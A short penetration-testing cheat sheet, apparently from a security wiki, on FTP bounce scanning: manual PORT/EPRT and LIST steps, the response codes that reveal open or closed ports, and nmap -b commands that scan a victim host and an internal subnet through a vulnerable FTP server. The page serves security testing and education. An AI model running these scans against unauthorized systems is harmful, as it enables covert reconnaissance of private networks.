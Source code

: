 # FTP Bounce attack - Scan

## FTP Bounce - Scanning

### Manual

1. Connect to vulnerable FTP
2. Use **`PORT`**or **`EPRT`**\(but only 1 of them\) to make it establish a connection with the _&lt;IP:Port&gt;_ you want to scan:

   `PORT 172,32,80,80,0,8080`  
   `EPRT |2|172.32.80.80|8080|`

3. Use **`LIST`**\(this will just send to the connected _&lt;IP:Port&gt;_ the list of current files in the FTP folder\) and check for the possible responses: `150 File status okay` \(This means the port is open\) or `425 No connection established` \(This means the port is closed\)
   1. Instead of `LIST` you could also use **`RETR /file/in/ftp`** and look for similar `Open/Close` responses.

Example Using **PORT** \(port 8080 of 172.32.80.80 is open and port 7777 is closed\):

![](../../.gitbook/assets/image%20%2885%29.png)

Same example using **`EPRT`**\(authentication omitted in the image\):

![](../../.gitbook/assets/image%20%28199%29.png)

Open port using `EPRT` instead of `LIST` \(different env\)

![](../../.gitbook/assets/image%20%28339%29.png)

### **nmap**

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
nmap -Pn -v -p 21,80 -b ftp:ftp@10.2.1.5 127.0.0.1 #Scan ports 21,80 of the FTP
nmap -v -p 21,22,445,80,443 -b ftp:ftp@10.2.1.5 192.168.0.1/24 #Scan the internal network (of the FTP) ports 21,22,445,80,443
```

